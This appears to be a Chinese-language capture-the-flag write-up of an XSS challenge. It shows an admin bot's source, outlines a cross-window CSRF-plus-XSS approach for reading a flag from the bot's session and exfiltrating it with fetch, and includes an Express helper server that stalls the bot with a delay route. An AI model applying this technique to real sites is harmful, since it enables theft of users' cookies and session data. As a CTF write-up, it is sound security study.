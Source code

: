 ```js
function main() {
    r.blpop(['submissions', 0], async (_, submit_url) => {
        let url = submit_url[1];    // 取出redis中提交的url
        await browse(url);  // 处理url
        main();
    });
}


console.log("XSS Bot ready");
main()

```

flag在admin bot的cookie中，它会带着这个session访问我们的页面，如果它直接访问/note那么它本地的页面上就会有flag，但是我们无法获得

注意到特殊的请求头`X-Frame-Options=DENY`，它使得该页面不允许被任何页面引用，也不允许引用任何页面，所以没法用`iframe`相关的技巧来做：发送给admin的页面(on our host)上共有两个iframe，第一个src指向/flag(可以看到flag的页面)的iframe，第二个iframe有我们的xss payload，这个payload中的script脚本可以做到XFS - cross frame scripting(读取top.frames)来到达原有的页面，转向页面的第一个iframe读到flag并取出，利用的是两个iframe是同源的，所以可以see each other's content

所以我们想到用window而不是iframe来达到相似的效果（原理一致）：发送给admin的页面(on our host)上有script可以在新窗口打开/note页面(含有flag)，然后script用csrf的方式post xss payload(设置`target="_blank"`使其在新窗口出现)，在post完成之后将当前窗口转为之前的/note 来使post的xss执行，由于同源可以获得含flag的/note页面的内容，再fetch外带flag

思路跟iframe的是一样的，只不过由切换iframe变为切换Tab window，接下来尝试写payload

注意以下xss bot，由于它的`watiUntil`的设置，一旦被认为是加载就会直接die掉，这里的绕过方式是用中转页面手动延时让其挂起（`setTimeout`则起不到同样的效果

payload-url

```
http://xxxx/pb
```

app.js

```js
let express = require('express');
let app = express();

app.get('/pb', function(req, res) {
    res.sendFile(__dirname + '/pb.html');
});

app.get('/delayThen404', function(req, res) {
    setTimeout(()=> {
            res.sendStatus(404);
            },
            5000)
});

let port = 5050;
let server = app.listen(port);
console.log('Local server running on port: ' + port);
```
